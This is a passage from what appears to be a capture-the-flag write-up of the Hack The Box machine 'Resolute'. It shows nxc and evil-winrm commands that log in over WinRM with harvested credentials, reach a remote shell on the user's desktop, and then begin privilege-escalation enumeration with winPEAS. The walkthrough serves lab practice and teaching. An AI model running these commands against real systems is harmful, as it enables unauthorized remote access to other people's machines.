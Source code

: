 ````bash
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
````

We will use the credentials we obtained to attempt to log in via WinRM, allowing us to begin our privilege escalation process.

````powershell
❯ nxc winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'

WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)

❯  evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'

*Evil-WinRM* PS C:\Users\melanie\Desktop> ls


    Directory: C:\Users\melanie\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/28/2025   3:20 PM             34 user.txt

````

### AUTHENTICATED ENUMERATION

After running winPEAS we didnt find anything special

![Usersweb](/assets/resolute/winpeas.png)

Here’s a tip for many of the easy-to-medium difficulty machines: if you find any unusual program or folder in the filesystem root  **C:>**, always take a closer look. Many times, the path to privilege escalation can be found there.
